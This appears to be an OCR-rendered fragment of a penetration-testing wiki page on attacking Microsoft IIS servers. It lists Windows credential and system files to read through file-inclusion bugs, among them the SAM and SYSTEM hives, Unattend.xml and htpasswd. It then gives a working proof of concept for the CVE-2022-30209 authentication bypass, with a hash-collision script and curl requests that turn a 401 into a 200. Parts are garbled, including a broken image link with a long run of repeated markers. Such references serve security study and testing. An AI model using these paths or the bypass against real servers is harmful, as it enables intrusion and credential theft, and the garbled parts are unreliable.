 ```
C:\Program Files\MySQL\MySQL Server 5.1\my.ini
C:\Program Files\MySQL\MySQL Server 5.5\my.cnf
C:\Program Files\MySQL\MySQL Server 5.5\my.ini
C:\Program Files\MySQL\MySQL Server 5.6\my.cnf
C:\Program Files\MySQL\MySQL Server 5.6\my.ini
C:\Program Files\MySQL\MySQL Server 5.7\my.cnf
C:\Program Files\MySQL\MySQL Server 5.7\my.ini
C:\Program Files\php\php.ini
C:\Users\Administrator\NTUser.dat
C:\Windows\debug\NetSetup.LOG
C:\Windows\Panther\Unattend\Unattended.xml
C:\Windows\Panther\Unattended.xml
C:\Windows\php.ini
C:\Windows\repair\SAM
C:\Windows\repair\system
C:\Windows\System32\config\AppEvent.evt
C:\Windows\System32\config\RegBack\SAM
C:\Windows\System32\config\RegBack\system
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SecEvent.evt
C:\Windows\System32\config\SysEvent.evt
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\drivers\etc\hosts
C:\Windows\System32\winevt\Logs\Application.evtx
C:\Windows\System32\winevt\Logs\Security.evtx
C:\Windows\System32\winevt\Logs\System.evtx
C:\Windows\win.ini
C:\xampp\apache\conf\extra\httpd-xampp.conf
C:\xampp\apache\conf\httpd.conf
C:\xampp\apache\logs\access.log
C:\xampp\apache\logs\error.log
C:\xampp\FileZillaFTP\FileZilla Server.xml
C:\xampp\MercuryMail\MERCURY.INI
C:\xampp\mysql\bin\my.ini
C:\xampp\php\php.ini
C:\xampp\security\webdav.htpasswd
C:\xampp\sendmail\sendmail.ini
C:\xampp\tomcat\conf\server.xml
```
## HTTPAPI 2.0 404 Error

If you see an error like the following one:

![](<../../.gitbook/assets/image (446) (1) (2) (2) (3) (3) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)
```python
# script for sanity check
> type test.py
def HashString(password):
j = 0
for c in map(ord, password):
j = c + (101*j)&0xffffffff
return j

assert HashString('test-for-CVE-2022-30209-auth-bypass') == HashString('ZeeiJT')

# before the successful login
> curl -I -su 'orange:ZeeiJT' 'http://<iis>/protected/' | findstr HTTP
HTTP/1.1 401 Unauthorized

# after the successful login
> curl -I -su 'orange:ZeeiJT' 'http://<iis>/protected/' | findstr HTTP
HTTP/1.1 200 OK
```